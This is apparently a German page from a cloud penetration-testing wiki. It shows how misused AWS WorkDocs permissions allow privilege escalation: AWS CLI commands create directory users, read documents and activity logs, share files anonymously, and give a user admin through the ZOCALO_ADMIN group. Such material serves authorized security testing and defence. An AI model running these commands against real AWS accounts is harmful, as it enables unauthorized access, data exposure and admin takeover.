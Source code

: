 # AWS - WorkDocs Privilege Escalation

## WorkDocs

Für weitere Informationen zu WorkDocs siehe:

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Erstellen Sie einen Benutzer im angegebenen Verzeichnis, dann haben Sie Zugriff auf sowohl WorkDocs als auch AD:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Die Dateien könnten sensible Informationen enthalten, lesen Sie sie:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Wenn Sie keinen Zugriff auf etwas haben, können Sie ihn einfach gewähren.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Sie können einen Benutzer zum Administrator machen, indem Sie ihn der Gruppe ZOCALO_ADMIN zuweisen.\
Befolgen Sie dazu die Anweisungen unter [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Melden Sie sich mit diesem Benutzer bei Workdocs an und greifen Sie auf das Admin-Panel unter `/workdocs/index.html#/admin` zu.

Ich habe keine Möglichkeit gefunden, dies über die Befehlszeile zu tun.
